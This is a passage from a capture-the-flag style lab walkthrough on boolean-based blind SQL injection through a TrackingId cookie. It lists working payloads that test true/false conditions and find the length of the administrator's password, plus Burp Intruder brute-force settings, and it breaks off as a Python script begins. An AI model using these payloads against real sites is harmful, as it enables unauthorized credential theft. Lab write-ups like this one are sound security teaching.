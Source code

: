 ### 🔹 Step 2: Confirm Blind SQL Injection and Conditional Response

We need to confirm that the `TrackingId` cookie is vulnerable and how the application responds to true/false conditions.

1.  In Burp Repeater, modify the `TrackingId` cookie value by appending an SQL condition:
    * **Test 1 (True Condition):**
        Set `Cookie: TrackingId=xyz' AND 1=1--`
        (Replace `xyz` with the original cookie value's prefix, e.g., `0987abc`).
    * Send the request.
    * 📌 **Expected Result:** The page should display the "Welcome back" message because `1=1` is true.

    * **Test 2 (False Condition):**
        Set `Cookie: TrackingId=xyz' AND 1=2--`
    * Send the request.
    * 📌 **Expected Result:** The "Welcome back" message should *not* be displayed because `1=2` is false.

    This confirms the presence of Boolean-based Blind SQL Injection and establishes our true/false indicator ("Welcome back" message).

### 🔹 Step 3: Determine Password Length

To dump the password, we first need to know its length. We can use the `LENGTH()` SQL function combined with a conditional check.

1.  **Formulate the Payload:** We will check the length of the administrator's password character by character. The payload will look like:
    `' AND LENGTH((SELECT password FROM users WHERE username='administrator')) = N--`
    where `N` is our guessed length.

2.  **Using Burp Intruder (Recommended for Brute-forcing Length):**
    * Send the request from Repeater to **Intruder**.
    * Set the attack type to **Sniper**.
    * Define the payload position: Place `§N§` where `N` is in the payload (e.g., `Cookie: TrackingId=xyz' AND LENGTH((SELECT password FROM users WHERE username='administrator')) = §N§--`).
    * Go to **Payloads**.
    * Set **Payload type** to **Numbers**.
    * Set **From:** `1`, **To:** `100` (or a reasonable upper limit for password length), **Step:** `1`.
    * Go to **Options -> Grep - Match**. Clear any existing "Grep - Match" items.
    * **Add a new "Grep - Match" item for the "Welcome back" string.** (This tells Intruder to note when this string appears in the response).
    * Start the attack.
    * 📌 **Observe the results:** Look for the request where the "Welcome back" string appeared. The payload number for that request will be the password's length.
    * **In this lab, you should find the password length is 20 characters.**

3.  **Alternatively, using Python (More automated):**
    You can write a simple Python script to automate this.

    ```python
    import requests
